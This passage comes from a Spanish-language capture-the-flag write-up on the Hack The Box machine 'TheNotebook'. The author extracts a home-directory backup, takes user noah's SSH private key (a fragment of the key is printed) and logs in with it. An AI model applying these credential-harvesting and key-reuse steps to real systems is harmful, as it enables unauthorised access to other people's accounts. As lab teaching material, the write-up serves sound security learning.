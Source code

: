 Copiemos el archivo comprimido e intentemos ver su contenido:

```bash
www-data@thenotebook:/var/backups$ cp home.tar.gz /dev/shm/
www-data@thenotebook:/var/backups$ cd !$
cd /dev/shm/
www-data@thenotebook:/dev/shm$ ls
home.tar.gz
www-data@thenotebook:/dev/shm$ gzip -d home.tar.gz 
www-data@thenotebook:/dev/shm$ ls
home.tar
www-data@thenotebook:/dev/shm$ tar xvf home.tar 
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
```

Opa, el backup del `/home` de un usuario llamado `noah` (efectivamente en la máquina existe), tenemos un par de llaves `SSH`, copiémonos el contenido de la llave privada `(id_rsa)` y creémonos un archivo con su contenido en nuestra máquina, esto para entrar por medio de `SSH` sin tener que ingresar contraseña:

* [Info SSH keys (Español)](https://wiki.archlinux.org/title/SSH_keys_(Espa%C3%B1ol)).

---

```bash
❭ cat key_noah 
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
HbhhDfFxK+EDWK4ykk0g5MvBQckcxAs31mNnu+UClYLMb4YXGvriwCrtrHo/ulwT
rLymqVzxjEbLUkIgjZNW49ABwi2pDfzoXnij9JK8s3ijIo+w/0RqHzAfgS3Y7t+b
...
❭ chmod 400 key_noah
```

Y ejecutamos hacia la máquina:

```bash
❭ ssh noah@10.10.10.230 -i key_noah 
load pubkey "key_noah": invalid format
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-135-generic x86_64)
...
```

![320bash_SSH_noah](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320bash_SSH_noah.png)

